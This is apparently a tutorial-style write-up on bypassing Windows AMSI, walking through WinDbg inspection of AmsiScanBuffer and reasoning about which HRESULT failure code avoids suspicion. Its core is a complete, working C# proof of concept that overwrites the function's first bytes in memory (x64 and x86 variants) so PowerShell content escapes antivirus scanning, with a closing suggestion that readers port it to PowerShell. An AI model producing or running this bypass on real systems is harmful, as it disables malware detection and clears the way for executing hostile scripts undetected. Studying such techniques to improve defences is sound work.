



## What is AMSI ?

AMSI (Antimalware Scan Interface) is a Windows security feature designed to help antivirus products inspect scripts and commands before they are executed.

in simple terms, think of AMSI as a security checkpoint between PowerShell and your antivirus. Whenever PowerShell runs a command or script, AMSI allows the antivirus to take a look at the content and decide whether it is safe or potentially malicious.

For example, if an attacker downloads a PowerShell script from the internet, AMSI can inspect the script's contents and alert the antivirus if it detects known malicious patterns. This makes it harder for malicious scripts to execute, even if they are encoded or hidden in memory.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## amsi.dll

`amsi.dll` acts as an intermediary between an application and the registered antimalware provider. It does not perform malware detection itself. Instead, it exposes a set of APIs that applications can use to submit content for scanning and receive a verdict.

Some of the most important AMSI functions include:

- `AmsiInitialize()` : Creates an AMSI context.
- `AmsiOpenSession()` : Opens a scan session.
- `AmsiScanString()` : Scans string-based content.
- `AmsiScanBuffer()` : Scans a memory buffer.
- `AmsiCloseSession()` : Closes an active session.
- `AmsiUninitialize()` : Releases AMSI resources.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------
>*Note:** Throughout this article, the term **_application_** primarily refers to the PowerShell process, as all demonstrations and observations are performed within a PowerShell instance unless stated otherwise.


## Finding AMSI in memory

First, we need to locate where `amsi.dll` is loaded in our current process(PowerShell Instance):

```console
0:020> lm m amsi  

start end module name  
00007ff9`04b00000 00007ff9`04b1d000 amsi (deferred)  
```

Then, find the exact address of `AmsiScanBuffer` :

```console
0:020> x amsi!AmsiScanBuffer  

00007ff9`04b08160 amsi!AmsiScanBuffer
```

Examining the raw bytes tells us the whole story behind it:

```console
0:020> db amsi!AmsiScanBuffer L20  

00007ff9`04b08160 48 89 5c 24 08 48 89 6c-24 10 48 89 74 24 18 57  
00007ff9`04b08170 41 56 41 57 48 83 ec 70-4d 8b f9 41 8b f8 48 8b
```

--------------------------------------------------------------------------------------------



*Figure 1: Locating the loaded amsi.dll module and resolving the address of AmsiScanBuffer.*

--------------------------------------------------------------------------------------------

The `0x48` byte is a REX prefix commonly seen in x64 instructions. Its presence strongly indicates that the code being examined is 64-bit. If this were 32-bit code, the first byte would typically be `0x55` (`push ebp`) or another value.


Disassemble the bytes to read what the instructions are actually doing:  

```console
0:020> u amsi!AmsiScanBuffer  
  
amsi!AmsiScanBuffer:  
00007ff9`04b08160 48895c2408 mov qword ptr [rsp+8],rbx  
00007ff9`04b08165 48896c2410 mov qword ptr [rsp+10h],rbp  
00007ff9`04b0816a 4889742418 mov qword ptr [rsp+18h],rsi  
00007ff9`04b0816f 57         push rdi  
00007ff9`04b08170 4156       push r14  
00007ff9`04b08172 4157       push r15  
00007ff9`04b08174 4883ec70   sub rsp,70h  
00007ff9`04b08178 4d8bf9     mov r15,r9
```

----------------------------------------------------------------------------------------------------------------------



*Figure 2: Initial instructions of AmsiScanBuffer showing the function prologue before any scanning logic is executed.*

-----------------------------------------------------------------------------------------------------------------------


The disassembly reveals the function's prologue. The first seven instructions all do one thing: save register values to the stack. The function saves `rbx`, `rbp`, `rsi`, then **pushes** `rdi`, `r14`, and `r15`, finally allocating 112 bytes of stack space with `sub rsp, 70h`.

Now in simple terms, What we see in the disassembly is purely setup code - the function is preparing to work and not actually working(on scanning logic), which means not a single instruction has performed any scanning yet.

At this point by patching the very beginning, we make the function return before it can begin its real work or do any harm to our script.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Patching

For `AmsiScanBuffer`, application expects a specific kind of value - an [HRESULT](https://learn.microsoft.com/en-us/windows/win32/seccrypto/common-hresult-values), which is Windows's standard format for success or failure codes.

A function can either return success or failure. The top bit of the return value decides this. If the top bit is 0, the function succeeded. If the top bit is 1, the function failed.

If we return success, PowerShell expects valid scan results in another parameter. That would require patching multiple locations at both the return value and the result parameter, which increases and complexity and chances of breaking at certain points.

If we return failure, PowerShell understands that something went wrong. It does not expect valid scan results. It simply logs the error and continues. This is simpler and more reliable.

So we choose a failure code - a number where the top bit is 1, putting us in the range `0x80000000` to `0xFFFFFFFF`.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### **Choosing a Failure Code**

Now, at this point we have to choose a correct failure code with respect to our `AmsiScanBuffer`, for a better understanding of why, let's have a look at the other common failure codes:

`0x80004005` (E_FAIL - Unspecified failure), In this case the application wonders "What failed? and Why?" This is vague and could cause an entire different behavior.

`0x80070005` (E_ACCESSDENIED - Access denied), Here application might think something is blocking AMSI entirely, which could trigger security policies or etc.

`0x80070002` (ERROR_FILE_NOT_FOUND), Here application asks about "What file?" and fun fact, AMSI doesn't deals with file, which means the error doesn't fit the context.

In case of `0x80070057` (E_INVALIDARG) - Consider the application knows that it calls the `AmsiScanBuffer` with five parameters. But it can't be certain that every parameter is correct, there could be a null, or an invalid pointed memory, or the length was wrong.

Now, when `AmsiScanBuffer` returns `0x80070057`, the application naturally assumes the problem is on its end. The application logs the error for debugging and continues execution. It does not block the script because the security component never returned a final result.


### CSharp Script


The patch bytes for x64 are `{ B8 57 00 07 80 C3 }` (`mov eax, 0x80070057; ret`) where `C3` reflects the caller-cleaned stack convention of x64, while x86 requires `{ B8 57 00 07 80 C2 18 00 }` where `C2 18 00` reflects the callee-cleaned `stdcall` convention, removing 24 bytes of arguments from the stack before returning.


```csharp
using System;
using System.Runtime.InteropServices;

namespace patch
{
    public class Program
    {

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        private static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flnewProtect, out uint lpfloldProtect);

        [Flags]
        public enum MemoryProtection : uint
        {
            PAGE_NOACCESS = 0x01,
            PAGE_READONLY = 0x02,
            PAGE_READWRITE = 0x04,
            PAGE_WRITECOPY = 0x08,

            PAGE_EXECUTE = 0x10,
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
            PAGE_EXECUTE_WRITECOPY = 0x80,

            PAGE_GUARD = 0x100,
            PAGE_NOCACHE = 0x200,
            PAGE_WRITECOMBINE = 0x400
        }

        public static void Execute()
        {
            var a = LoadLibrary("amsi.dll");
            var addr = GetProcAddress(a, "AmsiScanBuffer");

            var pbytes = (IntPtr.Size == 8)
                ? new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }
                : new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };

            VirtualProtect(addr, (uint)pbytes.Length, (uint)MemoryProtection.PAGE_READWRITE, out uint oldProtect);

            Marshal.Copy(pbytes, 0, addr, pbytes.Length);

            VirtualProtect(addr, (uint)pbytes.Length, oldProtect, out _);
        }


    }
}
```


## PoC Demo

----

> For demonstration purposes, I have included a C# implementation of the underlying logic below.
> Rather than providing the PowerShell version directly, I encourage readers to treat it as a practical exercise. Take some time to analyze the code, understand the logic behind it, and try implementing an equivalent PowerShell version yourself.



*Figure 3:Proof-of-concept demonstration showing the observed behavior after applying the discussed modification.*

------------